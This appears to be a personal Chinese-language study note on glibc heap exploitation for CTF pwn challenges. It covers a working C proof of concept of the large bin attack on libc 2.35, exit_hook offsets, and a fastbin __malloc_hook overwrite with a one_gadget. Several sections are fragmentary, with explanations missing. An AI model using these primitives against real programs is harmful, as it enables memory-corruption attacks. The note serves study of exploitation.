# GLIBC_Attack

---

title: House-of-Main
date: 2023-07-31T14:09:21Z
lastmod: 2024-04-03T16:45:32Z

---

‍

## unlink_attack

‍



基本上只能打heap_list，堆块重叠， 可以最大化

‍

‍

- 配合 off by null

‍

‍



‍

‍



‍

- overlapping


‍

## large_bin_attack

‍

首先列出所有的操作过程：

|序号|操作|目的|
| ----| ------------------------------| ---------------------------------------------------|
|1|p1 = malloc(0x428)|堆风水|
|2|g1 = malloc(0x18)|隔断防止合并|
|3|p2 = malloc(0x418)|堆风水|
|4|g2 = malloc(0x18)|隔断防止合并|
|5|free(p1)|将p1指向的堆块放到unsortedbin中|
|6|g3 = malloc(0x438)|进行堆块申请操作，将p1指向的堆块放入largebin中|
|7|free(p2)|将p2指向的堆块放到unsortedbin中|
|8|p1[3] = (size_t)((&target)-4);|p1堆块的bk_nextsize改成任意地址写-0x20处|
|9|g4 = malloc(0x438)|申请堆块，触发unsortedbin链入largebin的代码完成攻击|

‍1

- large bin

​​

表： 应该是 同属于哪一个bin

|----------------index--------------------|---------------size范围------------------|
| -----------------------------------------| -----------------------------------------|
|||
|64|[0x400,0x440) 相差0x40|
|65|[0x440,0x480)相差0x40|
|||
|......|......相差0x40|
|96|[0xc00,0xc40)相差0x40|
|97|[0xc40,0xe00)相差0x1c0|
|98|[0xe00,0x1000)相差0x200|
|......|......相差0x200|
|......|......|

‍

这个 large_bin_attack 攻击，个人认为就是往一个指定的`地址里写一个大的地址`​（heap_addr 或者 main_arena）

‍

‍

- libc.2.35

‍

```c
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>

int main(){
  setvbuf(stdin,NULL,_IONBF,0);
  setvbuf(stdout,NULL,_IONBF,0);
  setvbuf(stderr,NULL,_IONBF,0);


  size_t target = 0;

  size_t *p1 = malloc(0x428); // *

  size_t *g1 = malloc(0x18);


  size_t *p2 = malloc(0x418); // *

  size_t *g2 = malloc(0x18);

  free(p1); // *

  size_t *g3 = malloc(0x438); // *

  free(p2); // *

  p1[3] = (size_t)((&target)-4); // *

  size_t *g4 = malloc(0x438); // *
  printf("Finally, allocate another chunk larger than [p2] (%p) to place [p2] (%p) into large bin\n", p2-2, p2-2);
  printf("Since glibc does not check chunk->bk_nextsize if the new inserted chunk is smaller than smallest,\n");
  printf("  the modified p1->bk_nextsize does not trigger any error\n");
  printf("Upon inserting [p2] (%p) into largebin, [p1](%p)->bk_nextsize->fd_nextsize is overwritten to address of [p2] (%p)\n", p2-2, p1-2, p2-2);

  printf("\n");

  printf("In out case here, target is now overwritten to address of [p2] (%p), [target] (%p)\n", p2-2, (void *)target);
  printf("Target (%p) : %p\n",&target,(size_t*)target);

  assert((size_t)(p2-2) == target);

  return 0;
}

```

‍

## exit_hook

‍

- 低版本

- 忘记写版本了，哈哈哈， 不过 高版本变了，可以看 文章里的

‍

```python
_rtld_global = ld_base + ld.sym['_rtld_global']
exit_hook = libc_base + 0x619060 + 3848

_dl_rtld_lock_recursive = _rtld_global + 0xf08
_dl_rtld_unlock_recursive = _rtld_global + 0xf10
```

‍

## tcache bin tcache struct

- libc2.27 - 至今

tcachebins  UAF 修改链表    0x250 这个堆块是  tcache struct ?

‍



- 然后 add ( tcache add 时 不会检测size)

可以控制 这个 0x250



如果直接free 这个 0x251 时 可以发现有一个 0x1 （tcache struct 结构及 ，链表的数量）

​​​​

free 之前修改成 7




然后 在 free

进入 unsortedbin





修改 tcache struct 结构体

​​​​

不出所料 果然是这样





- 不止有tcachebin 链表数量，指针同时也在里面 tcachebin 链表的地址



## 备忘录

### fastbin 不是任意地址申请？

- 最近写高版本学的有点傻了，低版本的libc heap题，有些点都忘记了，再这里稍微记一下

‍

- fastbin

  > double free 后  想要任意地址申请 时 需要注意 是有 size 位 检查的
  >

```python
p64(__malloc_hook-0x23) + p64(0) # fd bk 
add(0x60,b'A' * 0x13 + p64(libc_base + ogg[2]))
```

​


‍

‍

### off by null 怎么打堆块重叠？

‍

- libc 2.23 libc.2.27
- 合并堆块一般都是 unsortedbin 的事情
- 正常情况都是去修改 prev_size
- 想要合并 要满足 一下条件，



‍

- 当然 最上面的哪个 unsortedbin 的chunk   也可以伪造 fd bk 来满足要求

‍



‍

‍

‍

‍

‍
